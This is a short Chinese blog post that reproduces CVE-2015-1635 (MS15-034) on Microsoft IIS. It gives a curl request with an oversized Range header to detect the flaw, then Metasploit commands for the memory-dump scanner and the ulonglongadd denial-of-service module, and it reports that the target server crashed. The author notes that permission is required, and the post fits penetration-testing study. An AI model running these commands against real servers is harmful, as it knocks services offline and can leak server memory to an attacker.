 ```yaml
---
title: iis cve-2015-1635复现
date: 2021-04-19 19:46:01
author: sec
---
```

先测试一波
curl http://XXX -H "Host: XXX" -H "Range: bytes=0-18446744073709551615"
![在这里插入图片描述](img/20210419194112248.png)
发现有cve-2015-1635漏洞。然后直接用kali工具msfconsole
利用ms15_034_ulonglongadd漏洞进行攻击
use auxiliary/scanner/http/ms15_034_http_sys_memory_dump 
set rhosts XXX
run
再搜索一波
![在这里插入图片描述](img/20210419194337310.png)
然后直接攻击（被授予攻击的权限，如果没授予务必不能攻击）
use auxiliary/dos/http/ms15_034_ulonglongadd 
set rhosts XXX
set threads 10
run
![在这里插入图片描述](img/20210419194544492.png)
然后被告知对方服务器挂了。
